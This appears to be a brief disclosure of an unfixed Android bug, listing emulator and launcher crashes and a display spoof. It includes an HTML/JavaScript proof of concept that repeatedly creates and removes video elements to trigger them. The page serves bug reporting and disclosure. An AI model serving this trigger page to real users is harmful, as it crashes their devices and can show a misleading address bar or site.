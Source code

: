 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash `frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting)` failed  

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.
```html
<script>
onload = () => {
    createVideo();
    createVideo();
    createVideo();
    createVideo();
    createVideo();
}

function createVideo() {
    let v = null;
    setInterval(() => {
        if (v) document.body.removeChild(v);
        v = document.createElement('video');
        v.width = "1000";
        v.src = 'video.mp4';
        document.body.appendChild(v);
    }, 2000);
}
</script>
```
